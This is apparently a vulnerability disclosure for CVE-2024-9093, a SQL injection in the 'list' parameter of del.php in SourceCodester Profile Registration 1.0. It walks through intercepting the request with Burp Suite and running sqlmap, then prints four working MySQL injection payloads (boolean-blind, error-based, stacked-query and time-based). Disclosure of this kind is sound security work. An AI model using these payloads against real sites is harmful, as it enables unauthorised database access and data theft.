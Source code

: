 # SQL Injection vulnerability was discovered from Sourcecodester Profile Registration without Reload/Refresh 1.0 (del.php)
## CVE-2024-9093

> A vulnerability classified as critical has been found in SourceCodester Profile Registration without Reload Refresh 1.0. This affects an unknown function of the file del.php of the component GET Parameter Handler. The manipulation of the argument list with an unknown input leads to a sql injection vulnerability. CWE is classifying the issue as CWE-89. The product constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component. This is going to have an impact on confidentiality, integrity, and availability.

**Affected Project**: Profile Registration without Reload/Refresh 1.0

**Official Website**: https://www.sourcecodester.com/php/17587/profile-registration-without-reloadrefresh-using-ajax-php-and-mysql-source-code.html

**Version**: 1.0

**Related Code file**: del.php

**Injection parameter**: GET parameter 'list' is vulnerable.

## Demonstration

Below is Profile Registration without Reload/Refresh 1.0:

![index](https://github.com/user-attachments/assets/7475fe84-3943-4b50-9929-625bc27582cf)

Below is admin page. We can see there is a delete feature to it:

![admin-php](https://github.com/user-attachments/assets/babd4ca6-685a-4f73-9554-5fe801da89f9)

Let's try deleting one of the entry:

![Screenshot from 2024-09-22 15-17-22](https://github.com/user-attachments/assets/b61c28b2-27dd-4e83-8fd8-a8d00c4eadab)


We will intercept the delete (del.php) traffic using Burp Suite:

![Screenshot from 2024-09-22 15-18-26](https://github.com/user-attachments/assets/19d5ceec-899b-47d9-a123-126a1796db19)

After saving the intercepted request as txt file, we will run sqlmap against it: `sqlmap -r del.req --batch`

![image](https://github.com/user-attachments/assets/1ea8910d-7617-4454-9925-3c0b443e4328)

sqlmap identifies GET parameter 'list' as vulnerable. Below is the payload used:

---
Parameter: list (GET)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: list=1' AND EXTRACTVALUE(6463,CASE WHEN (6463=6463) THEN 6463 ELSE 0x3A END)-- jUPW

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: list=1' AND GTID_SUBSET(CONCAT(0x7176786271,(SELECT (ELT(3483=3483,1))),0x71627a6271),3483)-- xwxz

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: list=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: list=1' AND (SELECT 7323 FROM (SELECT(SLEEP(5)))ELsa)-- jKqa
---


